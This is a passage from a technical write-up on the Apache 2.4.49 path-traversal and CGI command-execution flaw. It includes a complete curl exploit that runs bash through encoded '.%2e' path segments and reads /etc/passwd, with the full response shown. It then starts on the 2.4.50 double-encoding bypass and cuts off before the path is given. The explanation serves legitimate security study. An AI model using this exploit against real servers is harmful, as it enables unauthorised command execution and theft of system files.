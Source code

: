 **Apache 2.4.49 with CGI enabled**

CGI will complicate the matter as the module will attempt to execute the retrieved file. For plaintext, like /etc/passwd, this can be problematic :). In order to execute or code, we can simply call `sh` or `bash` with the command in the body. Note that the Content-Type response header will also have to be emitted so that the client will know how to display the results.

```
user@machine$  curl -v 'http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; cat /etc/passwd' -H "Content-Type: text/plain"
*   Trying 127.0.0.1:8080...
* Connected to localhost (127.0.0.1) port 8080 (#1)
> POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/7.74.0
> Accept: */*
> Content-Type: text/plain
> Content-Length: 52
>
* upload completely sent off: 52 out of 52 bytes
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Mon, 11 Oct 2021 12:22:34 GMT
< Server: Apache/2.4.49 (Unix)
< Transfer-Encoding: chunked
< Content-Type: text/plain
<
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
* Connection #1 to host localhost left intact

```

**Apache 2.4.50**

This particular example was fixed in version 2.4.50. However, the fix was incomplete and failed to account for a double-encoding of the URL. In this case, we can use the same structure as the previous version, with the following path:
